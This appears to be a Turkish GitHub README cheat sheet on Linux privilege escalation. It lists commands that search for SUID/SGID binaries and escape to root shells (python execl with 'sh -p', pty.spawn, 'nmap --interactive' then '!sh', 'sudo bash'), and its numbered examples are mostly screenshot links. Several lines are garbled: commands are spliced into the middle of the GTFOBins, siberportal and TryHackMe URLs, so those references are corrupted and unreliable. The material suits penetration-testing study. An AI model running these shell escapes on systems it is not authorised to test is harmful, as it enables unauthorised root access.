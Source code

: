 ## Privilege Escalation


### Yetki Yükseltme

sudo -l

![resim](https://user-images.githubusercontent.com/18248422/180613950-c1b54a74-9e83-4904-b0ec-6cb9aece6b6a.png)


yetki yükseltilebilecek dosyaları arama komutları

find / -perm -u=s -type f 2>/dev/null

find / -user root -perm /4000

find / -user root -perm -4000 -exec ls -ldb {} \;

bir yetki yükseltme python komutu örneği;

usr/bin/python -c 'import os; os.execl("/bin/sh","sh","-p")'

python3 -c 'import pty; pty.spawn("/bin/bash")'

kaynak: https://gtfobins.github.io/gtfobifind usr/bin/python -c 'import os; os.execl("/bin/sh","sh","-p")'/ -user root -perm /4000ns/python/

bir başka yetki yükseltme komutu:

sudo bash

Privilege Escalation with Path Variable Manipulation                            

find / -perm -u=s -type f 2>/dev/null

Find all the SUID/SGID executables on the Debian VM:

find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null


https://www.siberportal.org/red-tefind / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/nullam/linux-penetration-tests/linux-sizma-testlerinde-hak-yukseltme-yontemleri/


### Yetki Yükseltme Örnek-1 :

![resim](https://user-images.githubusercontent.com/18248422/180613982-d2cd4029-a317-440d-83aa-ff6c2ecfe439.png)


python -c 'import pty; pty.spawn("/bin/sh")'

![resim](https://user-images.githubusercontent.com/18248422/180613991-3fe79f41-a97f-4e15-ab21-d0ed193f9f5c.png)


find / -perm -u=s -type f 2>/dev/null

![resim](https://user-images.githubusercontent.com/18248422/180613993-31d247d8-3a16-4b75-aab5-a2c7aa9dbe74.png)


nmap --interactive

nmap> !sh

![resim](https://user-images.githubusercontent.com/18248422/180614001-7d9c7fa1-9e8b-470a-a6f3-81f1bcce08d0.png)


### Yetki Yükseltme Örnek-2 :

![resim](https://user-images.githubusercontent.com/18248422/180614007-067ae96e-4b8b-48b7-b942-449fea1a5223.png)



### Yetki Yükseltme Örnek-3 :

cron ve tar ile;

kaynak: https://tryhackme.com/ronmap --interactiveom/linuxprivesc

![resim](https://user-images.githubusercontent.com/18248422/180614022-ad33d2fd-2850-478a-875f-1512147b6ddc.png)



### Yetki Yükseltme Örnek-4 :

![resim](https://user-images.githubusercontent.com/18248422/180614027-69f55613-ddf1-4b38-9c93-622b894dc545.png)



### Yetki Yükseltme Örnek-5 :

PATH ile;

![resim](https://user-images.githubusercontent.com/18248422/180614032-5d97d6d8-d51b-4418-8054-a1cf2d75cccb.png)



### Yetki Yükseltme Örnek-6 :

bash version <4.2-048 ise;

![resim](https://user-images.githubusercontent.com/18248422/180614037-c1116675-2be1-4495-ab40-e37f8beaa889.png)



### Yetki Yükseltme Örnek-7 :

![resim](https://user-images.githubusercontent.com/18248422/180614059-618f164e-4c2f-420b-b8a1-fe0dc9ef20e8.png)




### Yetki Yükseltme Örnek-8 :

"hidden history files" ile ;

![resim](https://user-images.githubusercontent.com/18248422/180614061-d6122402-87d3-4eef-8a60-84f8537d70a7.png)



### Yetki Yükseltme Örnek-9 :

"config files" ile ;

![resim](https://user-images.githubusercontent.com/18248422/180614066-c536e501-0a18-4e2e-a2b0-a49ea598b9e3.png)




### Yetki Yükseltme Örnek-10 :

"root_keys - SSH Keys, backups ile;

![resim](https://user-images.githubusercontent.com/18248422/180614070-00b4e799-e60f-4374-8001-757d22b0a0e7.png)



### Yetki Yükseltme Örnek-11 :

"NFS servisi ile remote user;

![resim](https://user-images.githubusercontent.com/18248422/180614075-ecd01773-4194-4d15-b19b-b4a49a35b235.png)




### Yetki Yükseltme Örnek-12 :

"Linux Exploit Suggester 2 ile;

![resim](https://user-images.githubusercontent.com/18248422/180614079-9a265967-67a8-44d1-8c94-745ffe9e7c1e.png)

## created by [@ahmetkara](https://github.com/ahmetQara)

